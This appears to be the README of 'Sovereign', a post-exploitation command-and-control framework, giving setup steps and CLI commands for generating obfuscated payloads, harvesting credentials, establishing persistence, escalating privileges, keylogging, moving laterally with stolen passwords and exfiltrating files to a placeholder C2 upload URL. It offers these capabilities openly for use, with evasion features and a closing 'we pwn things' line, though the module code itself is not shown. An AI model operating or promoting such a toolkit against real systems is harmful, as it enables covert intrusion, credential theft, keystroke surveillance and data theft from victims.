 # Sovereign Post-Exploitation Framework

This framework provides advanced post-exploitation capabilities with a focus on evasion and automation.

## Features

- **Enhanced Evasion Techniques**: Polymorphic code, sandbox detection, time-based evasion.
- **Advanced Post-Exploitation Modules**: Credential harvesting, persistence, privilege escalation, reconnaissance, data exfiltration, keylogging, lateral movement.
- **Secure Communication**: Encrypted communication between agent and C2 server.
- **Modular Design**: Easily add new modules and functionalities.
- **Logging and Reporting**: Detailed logging and report generation.

## Usage

### Setting Up the C2 Server

1. **Create a Python virtual environment and activate it**:
    ```bash
    python -m venv venv
    source venv/bin/activate  # On Windows: venv\Scripts\activate
    ```

2. **Install the required dependencies**:
    ```bash
    pip install -r c2_server/requirements.txt
    ```

3. **Run the C2 server**:
    ```bash
    python c2_server/c2_server.py
    ```

### Using the CLI

The CLI provides various commands to interact with the framework.

#### List all registered agents:
```bash
python cli/cli.py list-agents
```

#### Interact with a specific agent:
```bash
python cli/cli.py select-agent AGENT_ID
```

#### Send a command to a specific agent:
```bash
python cli/cli.py send-command --agent_id AGENT_ID --command "Your command here"
```

#### Generate an obfuscated payload for a specific platform:
```bash
python cli/cli.py generate-payload --platform PLATFORM
```

#### Harvest credentials:
```bash
python cli/cli.py harvest-credentials
```

#### Establish persistence:
```bash
python cli/cli.py establish-persistence
```

#### Escalate privileges:
```bash
python cli/cli.py escalate-privileges
```

#### Gather system information:
```bash
python cli/cli.py gather-system-info
```

#### Exfiltrate data:
```bash
python cli/cli.py exfiltrate-data --file_path /path/to/file --c2_url https://your-c2-server.com/upload
```

#### Start keylogger:
```bash
python cli/cli.py start-keylogger --log_file_path /path/to/log_file
```

#### Move laterally:
```bash
python cli/cli.py move-laterally --target_ip TARGET_IP --username USERNAME --password PASSWORD
```

### Example Commands

1. **Listing all registered agents**:
    ```bash
    python cli/cli.py list-agents
    ```

2.    #### Interact with a specific agent:
```bash
python cli/cli.py select-agent AGENT_ID
```

3.    #### Interact with a selected agent:
```bash
Get-ComputerInfo
```

4. **Sending a command to a specific agent**:
    ```bash
    python cli/cli.py send-command --agent_id 1234-5678-9101-1121 --command "whoami"
    ```

5. **Generating a payload for Windows**:
    ```bash
    python cli/cli.py generate-payload --platform windows
    ```

6. **Harvesting credentials**:
    ```bash
    python cli/cli.py harvest-credentials
    ```

7. **Establishing persistence**:
    ```bash
    python cli/cli.py establish-persistence
    ```

8. **Escalating privileges**:
    ```bash
    python cli/cli.py escalate-privileges
    ```

9. **Gathering system information**:
    ```bash
    python cli/cli.py gather-system-info
    ```

10. **Exfiltrating data**:
    ```bash
    python cli/cli.py exfiltrate-data --file_path /path/to/file --c2_url https://your-c2-server.com/upload
    ```

11. **Starting a keylogger**:
    ```bash
    python cli/cli.py start-keylogger --log_file_path /path/to/log_file
    ```

12. **Moving laterally**:
    ```bash
    python cli/cli.py move-laterally --target_ip TARGET_IP --username USERNAME --password PASSWORD
    ```

### Logging and Reporting

Logs are stored in the `c2_server.log` file located in the `c2_server` directory. This file contains detailed information about agent activities and commands executed.

To generate a report from the logged data, run the following command:
```bash
python c2_server/c2_server.py generate-report
```
This will create a `report.txt` file containing the logs. The report provides a comprehensive view of all interactions and events logged by the C2 server.

### Adding New Modules

To add new post-exploitation modules, create a new Python file in the `CLI/modules` directory and implement the desired functionality. Update the CLI script to include commands for the new module.

### Contribution

Contributions to the Sovereign framework are welcome. Please submit a pull request with a detailed description of your changes.

### License

This project is licensed under the MIT License.

# By the way, we pwn things.....
